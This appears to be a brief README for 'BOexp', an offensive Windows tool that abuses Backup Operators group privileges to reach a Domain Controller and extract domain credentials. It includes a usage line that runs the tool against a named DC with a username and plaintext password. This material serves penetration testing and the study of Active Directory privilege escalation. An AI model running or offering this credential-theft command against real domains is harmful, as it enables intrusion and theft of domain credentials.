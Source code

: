 # BOexp
Privilege escalation using Backup Operators group to gain Domain Controller access.

backup operator 组用户特权利用获取域控相关凭据

use:
BOexp.exe -t \\dc2008.vultest.com -u BOtest -p 1qaz@WSX -d vultest.com -o c:\users
